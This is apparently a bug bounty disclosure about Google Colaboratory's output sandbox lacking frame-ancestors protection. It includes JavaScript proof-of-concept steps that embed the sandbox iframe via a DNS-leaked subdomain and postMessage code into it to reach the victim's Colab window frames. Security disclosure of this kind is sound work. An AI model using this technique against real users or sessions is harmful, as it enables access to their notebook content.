 ```yaml
---
title: Insecure sandbox on Colaboratory (Awarded $1337, Not Fixed)
---
```


Google Colaboratory puts some output such as visualizations into a sandbox however it has no embedding protection such as csp frame-ancestors so the origin is exposed to attackers with local network access.

```js
let w = open('about:blank');
```

On about:blank

```js
opener.location = 'https://colab.research.google.com/';
```

Leak ID from unencrypted DNS then do:

```js
let IDfromDNS = 'blah';
let f = document.createElement('iframe');
f.hidden = true;
f.src =
  'https://' + IDfromDNS + '-0-colab.googleusercontent.com/outputframe.html';
document.body.appendChild(f);
setTimeout((_) => {
  f.contentWindow.postMessage(
    {sandboxed_iframe_evaluation: 'console.log(parent.opener[0].google)'},
    '*',
  );
}, 100);
```

On the "Welcome to Colaboratory" project using the sandbox embedded on the attackers website.

- `parent.opener[0].google` refers to stuff.
- `parent.opener[5].document` refers to the chart.

Sometimes sandboxes use a randomly generated subdomain for isolation unfortunately due to unencrypted DNS this is not safe. <https://www.cloudflare.com/learning/dns/dns-over-tls/>

